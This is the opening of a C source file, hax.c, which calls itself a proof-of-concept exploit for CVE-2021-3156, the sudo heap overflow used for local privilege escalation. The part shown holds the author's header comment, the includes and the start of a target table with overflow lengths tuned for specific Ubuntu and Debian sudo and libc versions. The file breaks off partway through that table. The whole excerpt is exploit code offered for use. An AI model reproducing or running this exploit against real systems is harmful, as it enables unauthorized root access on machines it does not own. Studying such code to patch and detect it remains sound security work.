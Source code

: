 hax.c
```c
/**
** CVE-2021-3156 PoC by blasty <peter@haxx.in>
** ===========================================
**
** Exploit for that sudo heap overflow thing everyone is talking about.
** This one aims for singleshot. Does not fuck with your system files.
** No warranties.
**
** Shout outs to:
**   Qualys      - for pumping out the awesome bugs
**   lockedbyte  - for coop hax. (shared tmux gdb sessions ftw)
**   dsc         - for letting me rack up his electricity bill
**   my wife     - for all the quality time we had to skip
**
**  Enjoy!
**
**   -- blasty // 20210130
**/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <ctype.h>

// 512 environment variables should be enough for everyone
#define MAX_ENVP 512
#define SUDOEDIT_PATH "/usr/bin/sudoedit"

typedef struct {
    char *target_name;
    char *sudoedit_path;
    uint32_t smash_len_a;
    uint32_t smash_len_b;
    uint32_t null_stomp_len;
    uint32_t lc_all_len; 
} target_t;

target_t targets[] = {
    {
        // Yes, same values as 20.04.1, but also confirmed.
        .target_name    = "Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27",
        .sudoedit_path  = SUDOEDIT_PATH,
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
        .lc_all_len     = 212
        },
    {
        .target_name    = "Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31",
        .sudoedit_path  = SUDOEDIT_PATH,
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
        .lc_all_len     = 212
        },
    {
        .target_name    = "Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28",
        .sudoedit_path  = SUDOEDIT_PATH,
        .smash_len_a    = 64,
        .smash_len_b    = 49,
```